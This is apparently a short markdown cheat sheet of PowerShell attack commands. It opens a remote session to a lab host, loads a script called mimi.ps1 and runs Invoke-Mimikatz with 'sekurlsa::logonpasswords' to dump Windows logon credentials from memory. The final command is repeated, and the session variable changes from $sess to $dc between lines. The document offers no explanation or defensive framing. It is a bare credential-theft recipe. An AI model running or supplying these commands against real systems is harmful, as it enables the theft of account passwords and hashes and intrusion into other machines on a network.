 # Powershell

## Commands

### Create a remote session

```text
$sess = New-PSSession -ComputerName lab.test.local
```

### Load a script 

```text
Invoke-Command  -FilePath{C:\temp\mimi.ps1} -Session $dc
```

### Execute the script

```text
 Invoke-Command -ScriptBlock{invoke-mimikatz -command '"sekurlsa::logonpasswords"'} $dc
```

Invoke-Command -ScriptBlock{invoke-mimikatz -command '"sekurlsa::logonpasswords"'} $dc



